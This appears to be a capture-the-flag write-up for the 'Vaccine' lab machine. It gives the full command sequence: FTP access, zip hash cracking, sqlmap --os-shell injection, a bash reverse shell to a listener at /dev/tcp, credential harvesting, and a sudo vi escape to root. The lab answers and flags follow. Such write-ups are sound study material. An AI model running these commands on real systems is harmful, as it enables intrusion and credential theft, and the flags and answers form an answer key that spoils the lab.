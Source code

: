 # Vaccine - Very Easy

<details>
<summary>Nmap Scan</summary>

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.16
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>
<br>

```shell
nmap -T4 -p- -A 10.129.228.238

gobuster dir -u http://10.129.228.238/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z
#this does not give any result

ftp 10.129.228.238
#login using anonymous mode

zip2john backup.zip > backuphash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt backuphash.txt

sqlmap --help

sqlmap -u 'http://10.129.228.238/dashboard.php?search=query' --cookie='PHPSESSID=vo3tv477lrn36gernqho5g1inh' --os-shell

#setup listener in another tab
nc -lvp 4444

#execute payload in os-shell
bash -c "bash -i >& /dev/tcp/10.10.15.16/4444 0>&1"

#we will receive shell in our listener
whoami

#upgrade shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

find / -name user.txt 2>/dev/null
#to find user flag

cat /var/lib/postgresql/user.txt

cd /var/www/html

grep -rnw . -e 'password' 2>/dev/null
#look for pattern 'password'
#this gives us password for postgresql

sudo -l
#we can run vi as sudo

#we can connect via SSH using the creds found
ssh postgres@10.129.228.238

sudo vi -c ':!/bin/sh' /dev/null
#this exploit does not work
#so we read a file with enough privileges

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
#this opens vi editor

#enter commands for interactive shell as root
:set shell=/bin/sh

:shell

#we get root access
cat /root/root.txt
```

```markdown
From nmap scan, we have three services to enumerate - SSH, HTTP and FTP

FTP allows anonymous mode, so we use that to get the backup.zip file.

Now this backup.zip file is password-protected, so we will have to use a service like zip2john, and then crack the hash using JtR.

JtR gives us the password '741852963', and with that we can extract the two files from the zip file.

The index.php file from the zip file contains the md5 hash '2cb42f8734ea607eefed3b70af13bbd3' for admin password.

When cracked this gives us the credentials admin:qwerty789, and it can be used for logging into the hosted website.

On logging in, we get some type of database details. The search function on the website uses the 'search' parameter; we can try sqlmap here.

Using sqlmap with the cookie value and the --os-shell option, to get an interactive shell, and we get it.

We can use a more stable shell by setting up a listener and spawning the shell there.

Once we get stable shell, we can get user flag.

For privesc, we also need current user's password; we can search for password in the machine itself.

Now, as we are postgres user, and machine uses PHP & SQL, we can try to look for cleartext creds in /var/www/html

And we do get password in dashboard.php, postgres:P@s5w0rd!

Using this creds, we can try for privesc by checking what commands we can run as sudo.

This shows us that we can run vi as sudo.

We can login through SSH for a more stable experience now that we have postgres creds.

Now that we can run /bin/vi as sudo, we need to access a file with read-write privileges.

Once we do that, we can run the exploit given on GTFObins for vi and we get root.
```

1. Besides SSH and HTTP, what other service is hosted on this box? - ftp

2. This service can be configured to allow login with any password for specific username. What is that username? - anonymous

3. What is the name of the file downloaded over this service? - backup.zip

4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? - zip2john

5. What is the password for the admin user on the website? - qwerty789

6. What option can be passed to sqlmap to try to get command execution via the sql injection? - --os-shell

7. What program can the postgres user run as root using sudo? - vi

8. Submit user flag - ec9b13ca4d6229cd5cc1e09980965bf7

9. Submit root flag - dd6e058e814260bc70e9bbdef2715849
